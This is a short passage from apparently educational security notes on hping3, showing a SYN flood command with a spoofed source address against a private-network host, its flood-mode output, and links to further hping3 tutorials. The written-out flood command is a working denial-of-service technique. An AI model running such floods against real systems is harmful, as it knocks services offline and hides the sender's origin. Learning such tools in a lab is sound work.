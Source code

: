 It is even possible to do a SYN flood on a victim. Beware of this since it may cause a DoS. If you are using virtual machines, they might hang.

`sudo hping3 -p 80 -S 192.168.8.142 -a 192.168.8.254 --flood`

(in this case, we are flooding 192.168.8.142 with SYN requests on port 80, and we are changing the return IP address (spoofing) to 192.168.8.254)

If we try to use a web browser to access 192.268.8.142 websites, it would be impossible.

```
HPING 192.168.8.142 (eth0 192.168.8.142): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 192.168.8.142 hping statistic ---
4209623 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

# Further references

- [Hping3: Full tutorial from noob to pro](https://techyrick.com/hping3-full-tutorial-for-dummies-to-pro/)
- [DOS Flood With hping3](https://linuxhint.com/hping3/)
- [10 hping3 examples in Kali Linux a complete Guide for beginners](https://www.cyberpratibha.com/blog/scan-network-using-packet-assembleranalyzer-hping3-in-kali-linux/)
- [15+ hping3 command examples in Linux [Cheat Sheet]](https://www.golinuxcloud.com/hping3-command-in-linux/)